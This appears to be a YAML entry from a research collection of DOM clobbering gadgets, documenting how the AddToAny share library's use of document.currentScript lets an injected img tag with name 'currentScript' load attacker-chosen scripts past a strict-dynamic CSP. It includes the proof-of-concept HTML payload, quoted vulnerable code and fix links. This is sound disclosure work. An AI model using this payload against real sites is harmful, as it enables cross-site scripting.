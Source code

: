 ```yaml
---
description: AddToAny gets people to the right destination to share or save your content, whether it's in a native app or on the web.
gadgets:
  ≤21/08/2024:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [AddToAny](https://www.addtoany.com/) library was using the `document.currentScript` property to load additional scripts.
        code: |
          <!-- user input -->
          <img src="https://addtoany@[current-host]/assets/xss/index.js?" name="currentScript">

          <script nonce="secret" async src="/assets/libs/addtoany/20240821/page.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://web.archive.org/web/20240821021100/https://static.addtoany.com/menu/page.js">https://web.archive.org/web/20240821021100/https://static.addtoany.com/menu/page.js</a>

      ```javascript
      _ = (d = o.currentScript) && d.src ? d.src : "",
      e = d && !d.async && !d.defer,
      
      // [...]

      a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
      p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
      l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
      
      // [...]

      var e = l + (t ? "" : "modules/");
      c(e + "core" + g + ".js", !0);
      ```
    links:
      - https://web.archive.org/web/20240821021100/https://static.addtoany.com/menu/page.js#before-fix
      - https://web.archive.org/web/20240821021327/https://static.addtoany.com/menu/page.js#after-fix
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

